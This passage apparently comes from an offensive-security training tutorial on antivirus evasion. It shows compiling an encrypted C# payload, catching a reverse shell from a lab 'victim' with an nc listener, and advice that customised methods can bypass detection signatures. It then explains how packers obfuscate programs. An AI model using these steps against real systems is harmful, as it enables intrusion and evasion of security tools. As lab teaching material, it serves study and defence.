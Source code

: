 Let's compile our payload with the following command on the Windows machine:

- **Compile Our Encrypted Payload**

```shell-session
C:\> csc.exe EncStageless.cs
        
```

Before running our payload, let's set up an `nc` listener. After copying and executing our payload into the victim machine, we should get a connection back as expected:

- **Set Up nc Listener**

```shell-session
user@AttackBox$ nc -lvp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
        
```

As you can see, simple adjustments are enough sometimes. Most of the  time, any specific methods you find online won't probably work out of  the box as detection signatures may already exist for them. However,  using a bit of imagination to customize any method could prove enough  for a successful bypass.

#  Packers

Another method to defeat disk-based AV detection is to use a packer. **Packers** are pieces of software that take a program as input and transform it so that its structure looks different, but their functionality remains  exactly the same. Packers do this with two main goals in mind:

- Compress the program so that it takes up less space.
- Protect the program from reverse engineering in general.

Packers are commonly used by software developers who would like to  protect their software from being reverse engineered or cracked. They  achieve some level of protection by implementing a mixture of transforms that include compressing, encrypting, adding debugging protections and  many others. As you may have already guessed, packers are also commonly  used to obfuscate malware without much effort.

There's quite a large number of packers out there, including UPX, MPRESS, Themida, and many others.

### Packing an application

While every packer operates differently, let's look at a basic example of what a simple packer would do.

When an application is packed, it will be transformed in some way using a **packing** function. The packing function needs to be able to obfuscate and  transform the original code of the application in a way that can be  reasonably reversed by an **unpacking** function so that  the original functionality of the application is preserved. While  sometimes the packer may add some code (to make debugging the  application harder, for example), it will generally want to be able to  get back the original code you wrote when executing it.
